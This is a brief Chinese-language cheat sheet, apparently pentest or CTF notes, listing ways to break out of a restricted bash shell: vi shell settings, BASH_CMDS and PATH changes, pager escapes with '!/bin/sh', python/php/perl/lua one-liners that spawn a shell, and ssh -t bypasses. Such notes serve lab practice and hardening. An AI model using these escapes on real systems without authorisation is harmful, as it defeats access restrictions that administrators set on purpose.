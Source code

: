 ### Rbash

##### VI绕过

> > ```javascript
> > vi：set shell=/bin/sh
> > 运行shell:shell
> > export PATH=/usr/sbin:/usr/bin:/sbin:/bin
> > ```

##### CP绕过

> > cp <img src="C:\Users\86184\AppData\Roaming\Typora\typora-user-images\image-20210416191256179.png" alt="image-20210416191256179" style="zoom:67%;" />

##### 环境变量绕过

> > ```javascript
> > BASH_CMDS[a]=/bin/sh;a  注：把/bin/bash给a变量`
> > export PATH=$PATH:/bin/    注：将/bin 作为PATH环境变量导出
> > export PATH=$PATH:/usr/bin   注：将/usr/bin作为PATH环境变量导出
> > ```

##### 常见绕过

> > 利用系统常见应用逃逸
> > ftp
> > more
> > less
> > man
> > vi
> > vim  
> >
> > ed以上在输入的地方输入!/bin/sh 或 !/bin/bash

##### python

> ```
> python -c 'import os; os.system("/bin/sh")'
> ```

##### php

> ```
> php -a then exec("sh -i");
> ```

##### perl

> ```
> perl -e 'exec "/bin/sh";'
> ```

##### lua

> ```
> os.execute('/bin/sh')
> ```

##### ssh

> ssh username@IP - t "/bin/sh" or "/bin/bash"
>
> ssh username@IP -t "bash --noprofile"